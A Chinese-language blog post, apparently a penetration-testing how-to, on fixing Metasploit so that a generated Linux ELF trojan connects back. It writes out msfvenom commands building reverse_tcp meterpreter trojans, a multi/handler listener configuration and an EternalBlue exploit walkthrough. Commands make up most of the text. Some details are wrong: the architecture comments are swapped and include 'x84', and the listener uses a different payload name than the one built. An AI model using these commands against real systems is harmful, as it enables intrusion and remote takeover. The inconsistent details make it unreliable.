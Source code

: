 ```yaml
---
layout: post
title: msf 生成 linux elf 木马反弹不成功的解决方法
categories: [安全工具]
description: docker 版本安装 msf 
keywords: 安全工具,msf
---
```


# 0x01 前言

## 这几天我的msf 要生成linux 的木马 一直反弹不成功，用的是以下的paylaod

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.233.131 LPORT=4444 -f elf > mshell.elf

我分析了一下报错，这个报错是没问题的，但生成的木马只有250b ，这明显是不成功的。

## 0x02 解决问题

问题1：
我刚开始认为是我msf的问题 ，回来验证了一下，我的msf 是6的版本，而这个语句是5的写法，而我启动 msfconsole ，发现我的版本是6

问题2：

设置payload，根据不同机器生成不同的；例如：x86和x64

```
linux/x64/meterpreter_reverse_tcp           # x86位机器
linux/x84/meterpreter_reverse_tcp           # x64位机器
```


**msf 6的生成语句为**

```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.3.16 LPORT=4444 -f elf > shell.elf
```
所以我改了payload ：linux/x64/meterpreter_reverse_tcp
这时候，就可以生成成功

```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.233.131 LPORT=4444 -f elf > mshell.elf
```

生成监听

```
msfconsole                                         # 在命令行里面输入命令，进入msf漏洞利用框架；
use exploit/multi/handler                          # 监听木马反弹过来的shell
set payload linux/x64/meterpreter/reverse_tcp  	   # 设置payload，不同的木马设置不同的payload，设置payload时，要根据目标系统的系统位数设置相应的payload;
set lhost 192.168.100.132                          # 我们的kali本机ip
set lport 6666                                     # 我们的kali本机端口
exploit           

```
反弹成功。


![本站favicon](https://cdn.jsdelivr.net/gh/dzxindex/picture@master/QQ%E6%88%AA%E5%9B%BE20220314191955.png)

## 利用ms17_010_eternalblue模块进行渗透：
打开msf框架：

msfconsole

使用ms17_010_eternalblue模块及各个配置：

use exploit/windows/smb/ms17_010_eternalblue

set payload windows/x64/meterpreter/reverse_tcp

show options

set rhost 目标主机IP

set lhost 监听的主机IP（在这里是docker主机的IP）

set lport 监听的端口（示例中为设置的映射的端口1234）

exploit
